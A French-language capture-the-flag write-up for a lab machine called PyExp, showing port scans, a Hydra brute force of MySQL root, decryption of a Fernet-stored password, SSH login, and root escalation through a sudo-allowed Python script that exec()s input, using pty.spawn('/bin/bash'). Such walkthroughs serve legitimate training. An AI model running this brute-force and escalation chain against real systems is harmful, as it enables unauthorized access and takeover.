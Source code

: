 # PyExp

    sudo nmap -p -sV 192.168.204.118
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.204.118 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.204.118
Scans classiques.

Il n'y a que les ports 3306 (MySQL) et 1337 (SSH) qui sont ouverts. Cela laisse très peu de possibilités. J'ai tenté les credentials par défaut pour MySQL sans succès, et j'ai ensuite lancé Hydra sur l'utilisateur par défaut :

    hydra  -vV  -f  -l root -P  ~/rockyou.txt 192.168.204.118 mysql
    
On obtient un mot de passe, il n'y a plus qu'à l'utiliser pour se connecter à la base de données et la fouiller : 

    mysql  -u root -h 192.168.204.118 -P 3306
    MariaDB [(none)]> SHOW DATABASES;
    MariaDB [(none)]> USE data;
    MariaDB [(none)]> SHOW TABLES;
    MariaDB [data]> SELECT * FROM fernet;

    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    | cred | keyy |  
    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    | gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |  
    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    1 row in set (0.051 sec)

Le nom de la table est très explicite, Fernet est un module Python de chiffrement et on peut facilement utiliser des sites comme https://asecuritysite.com/tokens/ferdecode pour le déchiffrer.

On essaye les credentials obtenus sur le SSH et cela fonctionne : 

    ssh  -l lucy 192.168.204.118 -p 1337
    cat local.txt

Élévation de privilèges : 

    sudo -l		
> (root) NOPASSWD: /usr/bin/python2 /opt/exp.py

    cat /opt/exp.py
    sudo python2 /opt/exp.py
> uinput = raw_input('how are you?')  
> exec(uinput)

Ce script ne filtre pas du tout les données entrées et exécutera n'importe quelle commande, c'est une injection de commande simplissime. J'ai opté pour la ligne que j'utilise habituellement pour fiabiliser les shells pourris : 
<br /> **"import pty ; pty.spawn('/bin/bash')"**

    ls /root
    cat /root/proof.txt
